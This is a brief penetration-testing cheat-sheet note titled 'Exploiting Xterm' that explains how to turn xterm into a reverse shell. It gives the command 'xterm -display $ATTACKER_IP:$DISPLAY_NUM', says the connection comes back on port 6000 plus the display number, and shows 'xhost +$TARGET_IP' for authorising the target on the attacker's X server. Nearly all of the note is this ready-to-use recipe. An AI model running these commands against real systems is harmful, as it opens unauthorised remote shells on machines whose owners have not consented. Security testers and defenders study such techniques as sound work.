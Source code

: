 # Exploiting Xterm

**author**:: Nathan Acks  
**date**:: 2022-07-11

Remember that the X11 protocol is network based! You can thus get xterm to act as a reverse shell by simply providing it with a display pointing to your machine.

```bash
xterm -display $ATTACKER_IP:$DISPLAY_NUM
```

The connection will be made back on port 6000 + `$DISPLAY_NUM` (so, 6000 for display 0, 6001 for display 1, etc.).

This, of course, requires a running X server on your end (for example, `Xnest :1`). You'll need to make sure that connections from the target system are authrized.

```bash
xhost +$TARGET_IP
```

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
